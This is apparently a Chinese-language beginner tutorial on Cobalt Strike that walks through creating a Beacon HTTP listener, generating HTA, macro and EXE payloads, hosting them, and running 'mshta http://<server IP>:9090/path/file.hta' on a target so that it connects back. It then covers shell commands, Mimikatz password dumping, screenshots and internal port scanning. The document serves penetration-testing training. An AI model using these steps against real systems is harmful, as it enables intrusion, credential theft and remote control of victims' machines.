# 网络安全教程：P70：CobaltStrike常用功能 🛠️





在本节课中，我们将学习渗透测试工具CobaltStrike（简称CS）的常用功能。我们将从界面介绍开始，逐步学习如何创建监听器、生成攻击载荷，并最终控制一台靶机。课程内容力求简单直白，适合初学者理解。

## 概述 📋

CobaltStrike是一款功能强大的渗透测试平台，常用于模拟高级持续性威胁（APT）。本节课将重点介绍其用户界面、核心功能模块以及如何利用这些功能让靶机上线并进行基本控制。

---

## 快捷工具栏介绍 🎛️

上一节我们介绍了CobaltStrike的基本概念，本节中我们来看看它的用户界面，特别是顶部的快捷工具栏。这个工具栏将常用功能分为五大类，方便我们快速操作。






以下是工具栏各按钮的功能详解：



1.  **连接/断开服务器**：按钮1和2分别用于连接到团队服务器或断开当前连接。
2.  **监听器管理**：按钮3用于查看所有已创建的监听器（Listener）。
3.  **视图切换**：按钮4到6分别对应CS的三个主要视图：服务器节点视图、会话（Session）列表、目标（Target）列表。
4.  **信息查看**：按钮7到10分别用于查看已获取的凭据（Credentials）、已下载的文件、键盘记录和屏幕截图。
5.  **攻击生成**：按钮11用于生成`stageless`的EXE木马文件。



关于`stageless`，需要理解Payload的两种类型：`stager`和`stageless`。`stageless`相当于完整的Payload，它包含所有功能，不需要额外下载其他模块即可进行完全交互。其优点是网络环境差时也能使用，缺点是体积大，容易被查杀。

6.  **其他功能**：按钮12（Java签名攻击）已淘汰；按钮13用于生成恶意的Office宏攻击；按钮14用于建立`Web Delivery`（一种无文件攻击方式）；按钮15用于在Web服务器上托管文件；按钮16用于管理托管的文件；按钮17和18分别是帮助和关于。

快捷工具栏的介绍就到这里，大家无需死记硬背，在实际操作中多点击使用自然就能熟悉。渗透测试的关键在于动手实践。

---

## 用户通信与团队协作 💬

在团队协作渗透测试时，CS提供了简单的通信功能。用户可以直接在交互界面中输入文字进行群聊。








例如，输入 `hello`，所有连接到同一团队服务器的客户端都会收到这条消息。



也可以进行私聊，命令格式为：`msg <RID> <消息内容>`。其中`<RID>`是目标客户端的标识符。

---

## 核心：创建监听器（Listener） 📡

对CS的一切操作都始于创建监听器（Listener）。没有监听器，靶机就无法连接到我们的团队服务器。

在CobaltStrike 4.0中，通过点击菜单栏的 `Listeners` 进入管理界面，然后点击 `Add` 进行创建。

创建时需要配置以下关键参数：
*   **Name**：监听器名称，例如 `demo_one`。
*   **Payload**：选择载荷类型，例如 `Beacon HTTP`。
*   **Payload Options**：设置载荷选项。
    *   **HTTP Hosts**：填写团队服务器的公网IP地址。
    *   **HTTP Port (C2)**：设置监听的端口，建议使用非80端口（如8080）以避免冲突。

配置完成后点击 `Save`，监听器即创建并启动。我们可以在服务器上使用命令 `netstat -antlp` 来验证端口（如8080）是否已在监听状态。

---

## 生成攻击载荷与靶机上线 ⚔️

创建好监听器后，下一步就是生成攻击载荷并让靶机上线。所有攻击生成选项都在 `Attack` 菜单中。





以下是 `Attack` -> `Packages` 下的主要功能：
*   **HTML Application**：生成一个`.hta`文件，靶机执行此文件即可上线。
*   **MS Office Macro**：生成恶意宏代码，可嵌入Office文档。
*   **Payload Generator**：生成各种语言版本的Payload。
*   **Windows Executable**：生成可执行文件（`.exe`）。
*   **Windows Executable (S)**：生成`stageless`的全功能可执行文件。

我们以“HTML Application”为例演示如何让靶机上线：
1.  选择 `Attack` -> `Packages` -> `HTML Application`。
2.  在弹出窗口中，选择之前创建的监听器（如`demo_one`）。
3.  选择执行方法，例如 `PowerShell`。
4.  保存生成的`.hta`文件到本地（如桌面）。







接下来，需要让靶机能访问到这个文件。使用 `Attack` -> `Web Drive-by` -> `Host File` 功能：
1.  选择刚才生成的`.hta`文件。
2.  设置一个托管端口（如9090），点击 `Launch`。
3.  系统会生成一个访问链接，例如 `http://<服务器IP>:9090/path/file.hta`。

在靶机（假设IP为`192.168.123.131`）上，通过命令行执行以下命令即可触发上线：
```cmd
mshta http://<服务器IP>:9090/path/file.hta
```
执行后，稍等片刻，靶机就会出现在CS的会话列表中，表示上线成功。

---



## 与上线靶机进行交互 🖥️



靶机上线后，我们可以对其进行各种操作。右键点击上线的会话，选择 `Interact` 即可打开交互式命令行界面。

**首要操作：调整心跳间隔**
默认的心跳间隔（Sleep）是60秒，这会导致命令执行反馈很慢。我们可以将其修改为更短的时间（如2秒），但需注意，过短的心跳在真实环境中容易被入侵检测系统发现。
修改命令为：`sleep 2`



**执行系统命令**
使用 `shell` 命令后接CMD指令，即可在靶机上执行命令。
例如：
*   `shell whoami`：查看当前用户。
*   `shell ipconfig`：查看网络配置。

**其他常用功能**
在交互界面输入 `help` 可以查看所有可用命令。此外，通过右键菜单还可以进行：
*   **Access**：进行提权、运行Mimikatz（抓取密码）、开启VNC等操作。
*   **Explore**：访问文件浏览器、进行端口扫描、查看进程列表、屏幕截图等。
    *   例如，执行屏幕截图后，可以在 `View` -> `Screenshots` 中查看结果。
    *   使用端口扫描功能，可以探测靶机所在内网网段的其他主机。





---

## 总结 📝

本节课我们一起学习了CobaltStrike的常用功能。我们从认识快捷工具栏开始，学习了创建监听器（Listener）的必要步骤，并通过“HTML Application”实例演示了如何生成攻击载荷并使靶机上线。最后，我们掌握了与上线主机进行交互的基本方法，包括调整设置、执行命令以及利用各类模块进行深入探索。







记住，理论结合实践是掌握渗透测试技能的关键。请务必在授权的实验环境中反复操作，加深理解。